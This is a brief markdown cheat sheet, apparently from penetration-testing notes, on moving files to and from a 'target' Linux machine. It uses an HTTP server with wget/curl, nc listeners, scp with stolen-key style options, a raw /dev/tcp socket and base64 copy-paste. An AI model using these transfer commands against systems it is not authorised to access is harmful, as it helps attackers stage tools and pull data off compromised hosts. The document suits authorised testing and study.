 ```yaml
---
title: "File Transfer (Linux To Linux)"
date: 2024-6-26
tags: ["file transfer", "nc", "scp"]
---
```


---
### HTTP

```bash
# Start a local HTTP server
python3 -m http.server 80
```

```bash
# In target Linux machine
wget <LOCAL_IP>/<FILE>
```

```bash
# In target Linux machine
curl <LOCAL_IP>/<FILE> -o <REMOTE_DEST_PATH>
```

<br>

---

### nc

```bash
# In our local Linux machine
nc -lvnp 4444 < <FILE>
```

```bash
# In target Linux machine
nc -w3 <LOCAL_IP> 4444 > <FILE>
```

<br>

---

### scp

#### Remote to Local

```bash
# If you have target password
scp <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

```bash
# If you have a ssh key
scp -i id_rsa <USER>@<TARGET>:<REMOTE_FILE_PATH> <LOCAL_DEST_PATH>
```

#### Local to Remote

```bash
# If you have target password
scp <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

```bash
# If you have a ssh key
scp -i id_rsa <LOCAL_FILE_PATH> <USER>@<TARGET>:<REMOTE_DEST_PATH>
```

<br>

---

### pipe

#### Local to Remote

```bash
# In our local Linux machine
cat <FILE> | nc -lnvp 4444
```

```bash
# In target Linux machine
exec 3<>/dev/tcp/<LOCAL_IP>/4444
```

```bash
# Ctrl+C to interrupt after some time
cat <&3 > <FILE>
```

```bash
# Check
md5sum <FILE>
```

<br>

---

### Base64 Encoding (for small binary)

```bash
# Base64 encode binary
cat <FILE> | base64 -w0
```

```bash
# Copy and paste the base64 encoded binary
echo -n '<BASE64_FILE>' | base64 -d > <FILE>
```

<small>*Note: For restricted environment*</small>